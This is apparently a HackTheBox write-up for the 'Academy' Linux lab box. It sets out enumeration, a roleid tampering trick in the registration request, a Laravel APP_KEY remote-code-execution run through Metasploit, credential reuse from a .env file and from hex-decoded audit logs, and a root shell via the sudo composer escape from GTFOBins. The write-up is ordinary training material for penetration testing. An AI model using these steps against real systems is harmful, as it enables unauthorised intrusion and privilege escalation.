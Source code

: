 ```yaml
---
layout: post
title: [Academy - Linux]
subtitle: HackTheBox
thumbnail-img: /assets/img/box.jpg
tags: [red]
---
```


This is my solution to the HackTheBox Passage Linux box, my second HTB writeup and my first root own!

# Academy - Linux - 10.10.10.215

# Enumeration:

As usual, we start out with nmap on the ip.

```
nmap -sC -sV -Pn 10.10.10.215
```

Results:
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-11 22:46 EST
Nmap scan report for 10.10.10.215
Host is up (0.029s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://academy.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.51 seconds
```

From here, we see that there is an http port open with a redirect to http://academy.htb. We then open our hosts file by doing `sudo vim /etc/hosts`. There, we add the host `10.10.10.215 academy.htb`

Next, we access http://academy.htb, and find a login page. We try registering an account and logging in to see what the website gives. There is quite a bit of useless information, and I was unable to find any services that could be exploited. We then move to the `/admin.php` page to see if we can login as admin.

To do so, we use burpsuite, finding the original post request that we used to login to `register.php`, sending it to the repeater, modifying the username, password, confirm, and most importantly the roleid to 1, and then logging in with our set credentials into the `/admin.php` page.

## Breaking In:

Here, we see the following information:


![admin login page](./pictures/academy1.png)


Let's check out http://dev-staging-01.academy.htb. Again we add this host to `/etc/hosts`, and we open the site. It gives us some good information:

```
APP_NAME 	"Laravel"

APP_ENV 	"local"

APP_KEY 	"base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0="

APP_DEBUG 	"true"

APP_URL 	"http://localhost"

SERVER_ADMIN 	"admin@htb"

DB_CONNECTION 	"mysql"

DB_HOST 	"127.0.0.1"

DB_PORT 	"3306"

DB_DATABASE "homestead"

DB_USERNAME "homestead"

DB_PASSWORD "secret"
```



We look up "lavarel" exploits on metasploit, and we find one for remote code execution. Running this with a listener system, with academy.htb as the target host, and with the given APP_KEY, we get a shell.

Opening up Kali, we first connect to the VPN then run the following commands:

```
msfconsole
search laravel
set RHOSTS academy.htb
set APP_KEY dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
set lhost tun0
set vhot dev-staging-01.academy.htb
run
```

Here, we get a webshell. We use `python3 -c "import pty; pty.spawn('/bin/bash')"` to spawn a reverse shell.

After poking around for a bit, we find the `/var/www/html/academy/.env`, with the `ls -al` command which has credentials:

```
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!
```

We also find in the `/home' directory a list of possible users:

```
21y4d
ch4p
cry0l1t3
egre55
g0blin
mrb3n
```

We `su cry0l1t3` with cry0l1t3:mySup3rP4s5w0rd!!. 

## Winning:

Enter the home directory and `cat user.txt`

# Root: 

We can now ssh into cry0l1t3.

In cry0l1t3's `/var` directory, we enter `/var/log/audit`. Here, we want to search for root logins with the command:

```
cat * | grep 'comm="su"'
```

Results:

```
type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A
```

We need to crack this data. Turns out it is unencrypted hex. When converted, we get:

```
mrb3n_Ac@d3my!
```

Looks like creds to me :). We try mrb3n:mrb3n_Ac@d3my!, which works!

We now execute `sudo -l` with mrb3n's password and get the following:

```
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer

````

We then use https://gtfobins.github.io/gtfobins/composer/ to get:

```
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```

Running these commands breaks out of the restricted environment, giving access to a root shell. 

Navigating to the root directory, we are able to `cat root.txt` and own root!
